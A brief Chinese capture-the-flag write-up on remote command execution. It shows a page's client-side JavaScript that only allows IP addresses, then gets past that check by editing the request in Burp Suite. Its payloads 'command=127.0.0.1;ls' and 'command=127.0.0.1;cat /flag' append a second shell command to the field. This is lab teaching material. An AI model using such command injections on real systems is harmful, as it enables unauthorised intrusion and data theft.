 #RCE

发现有输入检查，只能是 ip
但是验证是在前端 js

```javascript
function check_ip() {
  let ip = document.getElementById("command").value;
  let re =
    /^(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)\.(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)\.(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)\.(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)$/;

  if (re.test(ip.trim())) {
    return true;
  }
  alert("敢于尝试已经是很厉害了，如果是这样的话，就只能输入ip哦");
  return false;
}
```

尝试 burp suite 改包

```text
command=127.0.0.1;ls

command=127.0.0.1;cat /flag
```
